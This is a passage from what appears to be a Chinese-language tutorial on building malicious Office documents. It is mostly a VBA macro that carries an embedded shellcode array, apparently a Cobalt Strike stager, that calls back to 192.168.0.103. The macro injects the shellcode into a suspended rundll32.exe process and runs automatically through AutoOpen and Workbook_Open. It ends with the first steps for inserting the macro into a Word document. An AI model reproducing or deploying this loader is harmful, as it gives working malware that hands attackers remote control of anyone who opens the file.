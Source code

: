 ```
-58,-17,-101,-23,-83,82,-24,82,-31,-82,53,-69,10,-119,-42,-55,127,-117,37,90,-27,98,-46,-51,34,-39,-58,-101,-20,36,-57,-38,-29,-37,124,-34,-54,-26,-12,25, _
118,-83,8,-55,-12,6,8,89,-47,98,25,99,106,-74,-103,-101,-103,-34,-112,-71,55,119,93,-9,0,-114,-3,-104,-39,120,86,89,-102,51,-71,-3,66,6,-113,-67, _
27,1,-111,-57,-56,-8,-86,42,106,-63,-33,-92,80,-38,-51,-60,-48,80,-124,-122,-67,-6,14,76,60,62,-110,60,-124,-89,-34,-41,-88,-20,74,22,71,-72,-21,-118, _
-59,-24,58,28,118,-20,-85,-26,82,-3,65,-74,86,-80,48,-89,-15,55,-10,-125,-20,75,107,-31,108,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0, _
104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43, _
-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-87,-3,-1,-1,49,57,50,46,49,54,56,46,48,46,49,48,51,0,23,80,101,-22)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

### Word

格式：**docx-doc&docm**

步骤：新建word文档--->打开开发工具--->插入 cs 的宏代码--->保存格式

1、打开开发工具
